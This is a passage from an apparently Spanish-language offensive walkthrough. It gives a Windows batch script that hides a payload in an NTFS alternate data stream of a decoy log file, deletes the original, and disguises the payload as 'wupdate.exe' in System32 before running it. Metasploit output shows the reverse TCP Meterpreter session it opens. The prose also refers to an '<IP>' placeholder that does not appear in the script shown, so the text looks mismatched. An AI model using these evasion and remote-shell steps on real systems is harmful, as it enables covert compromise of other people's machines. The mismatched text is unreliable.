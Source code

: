 ```shell

:: Crear el archivo NTFS alternativo
type C:\Temp\payload.exe > C:\Temp\windowslog.txt:PuTTY.exe
if %ERRORLEVEL% NEQ 0 (
    exit /b %ERRORLEVEL%
)

:: Borrar el archivo original
del C:\Temp\payload.exe
if %ERRORLEVEL% NEQ 0 (
    exit /b %ERRORLEVEL%
)

:: Crear un enlace simbólico
mklink C:\Windows\System32\wupdate.exe C:\Temp\windowslog.txt:PuTTY.exe
if %ERRORLEVEL% NEQ 0 (
    exit /b %ERRORLEVEL%
)

:: Verificar existencia del enlace simbólico
if not exist C:\Windows\System32\wupdate.exe (
    exit /b 1
)

:: Ejecutar el enlace simbólico
start C:\Windows\System32\wupdate.exe
if %ERRORLEVEL% NEQ 0 (
    exit /b %ERRORLEVEL%
)

:: Cerrar CMD automáticamente
exit
```

Donde pone `<IP>` le pondremos nuestra IP donde tengamos el servidor de python abierto y por todo lo demas se queda como esta, este ejecutable se tendra que ejecutar como `administrador` eso es importante saberlo.

Una vez ejecutado ese `.bat`, si nos vamos a la escucha donde tenemos en metasploit.

```
[*] Started reverse TCP handler on 192.168.5.199:7777 
[*] Sending stage (201798 bytes) to 192.168.5.138
[*] Meterpreter session 3 opened (192.168.5.199:7777 -> 192.168.5.138:49167) at 2024-07-28 17:44:41 +0200

meterpreter > getuid
Server username: vuln-smb\diseo
```

Veremos que somos el usuario normal, esto en tal caso de que no estuviera en ninguna cuenta como `administrador`, por lo que para ser administradores totalmente, haremos lo siguiente.
